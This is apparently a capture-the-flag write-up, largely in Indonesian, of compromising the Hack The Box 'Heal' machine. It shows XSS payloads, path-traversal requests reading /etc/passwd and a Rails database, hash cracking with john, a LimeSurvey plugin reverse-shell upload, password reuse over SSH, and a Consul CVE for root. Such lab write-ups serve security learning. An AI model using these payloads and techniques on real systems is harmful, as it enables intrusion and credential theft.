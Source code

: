 ![[Heal.png]]
# Reconnaisance
## Open Ports
### 1. TCP
#### All ports
```
# Nmap 7.94SVN scan initiated Tue Jan  7 19:32:02 2025 as: nmap -sS --min-rate=1000 -p- -o allport_nmap.txt -Pn 10.10.11.46
Nmap scan report for 10.10.11.46
Host is up (0.046s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
#### Version of ports
```
# Nmap 7.94SVN scan initiated Tue Jan  7 19:35:11 2025 as: nmap -sV -p22,80 -o version_port_nmap.txt 10.10.11.46

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### 2. UDP
```
$ sudo nmap 10.10.11.46 -sUC --top-ports 1000 --min-rate=1000 -o UDPport_nmap.txt -Pn -open

NOPE
```
## Port 80 (HTTP)

|            | heal.htb                                                                                                                                                   | api.heal.htb        | take-survey.htb                                                                                             |
| ---------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------- | ----------------------------------------------------------------------------------------------------------- |
| Content    | - Login => cek **sql injection**<br>- Singnup => cek **sql injection**<br>- Generate resume => cek **XSS**<br>- Survey => redirect ke take-survey.heal.htb |                     | -Halaman awal LimeSurvey<br>- Pilih bahasa<br>- Administrator => ralph@heal.htb                             |
| Directory  |                                                                                                                                                            |                     | http://take-survey.heal.htb/index.php/admin/authentication/sa/login<br>http://take-survey.heal.htb/tmp/<br> |
| Subdomain  | ffuf => api.heal.htb                                                                                                                                       |                     |                                                                                                             |
| Technology | ruby on rail                                                                                                                                               | Ruby on Rails 7.1.4 | LimeSurvey Community Edition Version 6.6.4                                                                  |
| CVE        |                                                                                                                                                            |                     | CVE-2021-44967                                                                                              |


# Exploitation
## Port 80 (HTTP) - heal.htb

Pada Generate resume ada fitur export pdf, ada kemungkinan RCE.
ada **reflected XSS** => 
- `<b>asd</b>` => asd (bold)
- `<script>document.write(document.location.href)</script>` => file:///tmp/wktemp-9dade65e-83a7-4555-9208-5a74ad652c70.html
- `<img src=x onerror=alert(1)>` => tidak tergenerate, kemungkinan permasalahan spasi

Download otomatis pdf nya lewat file ini
http://api.heal.htb/download?filename=76d025ca4e7f7e2611c8.pdf cek **Path traversal**
GET /download?filename=../../../../../etc/passwd => **bisa**
GET /download?filename=/../etc/passwd => **bisa**
![[Pasted image 20250108213020.png]]
terdapat user
- root
- ralph
- ron

Coba cek rails database configuration
 `../../config/database.yml` 
diketahui bahwa terdapat file `storage/development.sqlite3`
 ![[Pasted image 20250109084409.png]]
#### cek sqlite3
![[Pasted image 20250109084739.png]]
download file sqlite3 tsb dan buka mengunakan **sqlitebrowser**
![[Pasted image 20250109090443.png]]
terdapat credential :
ralph@heal.htb 
$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG

```
john --wordlist=/usr/share/wordlists/rockyou.txt ralph_password.txt 
?:147258369
```
login ssh => NOPE
login web take-survey.heal.htb 

coba CVE https://ine.com/blog/cve-2021-44967-limesurvey-rce

![[Pasted image 20250109150507.png]]

klik link ini untuk mengakt
http://take-survey.heal.htb/upload/plugins/Y1LD1R1M/php-rev.php


![[Pasted image 20250109145446.png]]
coba SSH db_user@heal.htb dengan password `AdmiDi0_pA$$w0rd` => **TIDAK BISA LOGIN**
coba SSH ralph@heal.htb dengan password `AdmiDi0_pA$$w0rd` => **TIDAK BISA LOGIN**
coba SSH ron@heal.htb dengan password `AdmiDi0_pA$$w0rd` => **BISA LOGIN** 

get user flag! UHUI

---
# Priviledge Escalation

```
$ sudo -l
Sorry, user ron may not run sudo on heal.

$ netstat -tunlp
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8300          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8301          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8302          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8600          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8500          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8503          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3001          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:5432          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 0.0.0.0:43626           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:5353            0.0.0.0:*                           -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -                   
udp        0      0 127.0.0.1:8301          0.0.0.0:*                           -                   
udp        0      0 127.0.0.1:8302          0.0.0.0:*                           -                   
udp        0      0 127.0.0.1:8600          0.0.0.0:*                           -                   
udp6       0      0 :::5353                 :::*                                -                   
udp6       0      0 :::44976                :::*                                -  

$ groups
ron

```

lakukan port forwarding

```
-L 8300:127.0.0.1:8300
-L 8301:127.0.0.1:8301 
-L 8302:127.0.0.1:8302
-L 8600:127.0.0.1:8600 
-L 8500:127.0.0.1:8500 => bisa akses web 'Consul v1.19.2'
-L 8503:127.0.0.1:8503
-L 3000:127.0.0.1:3000 => bisa akses web 'web sebelumnya'
-L 3001:127.0.0.1:3001 => bisa akses web 'White black screen'
-L 5432:127.0.0.1:5432 
```

ada CVE Consult v1.19.2 => **CVE-2021-41805**
https://github.com/blackm4c/CVE-2021-41805

![[Pasted image 20250109164451.png]]
**get root flag horraaay**
![[Pasted image 20250109164643.png]]

thank you :D